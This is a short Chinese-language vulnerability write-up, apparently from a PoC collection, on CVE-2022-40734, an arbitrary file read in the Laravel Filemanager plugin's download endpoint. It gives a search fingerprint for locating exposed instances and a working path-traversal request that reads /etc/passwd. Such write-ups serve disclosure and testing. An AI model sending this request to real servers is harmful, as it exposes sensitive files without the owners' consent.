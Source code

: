 # Laravel Filemanager插件 download 任意文件读取漏洞 CVE-2022-40734

## 漏洞描述

Laravel Filemanager插件 download 接口存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器上的敏感数据

## 漏洞影响

<a-checkbox checked>Laravel Filemanager插件</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"Laravel Filemanager"</a-checkbox></br>

## 漏洞复现

主页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664084648855-fcb64ea4-cb62-4919-810c-a7d5af1f32d4.png)

验证POC

```sql
  /laravel-filemanager/download?working_dir=%2F../../../../../../../../../../../../../../../../../../../etc/passwd
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1664084692096-263ec0e8-f683-4ec3-8d01-d2b0bc177fc2.png)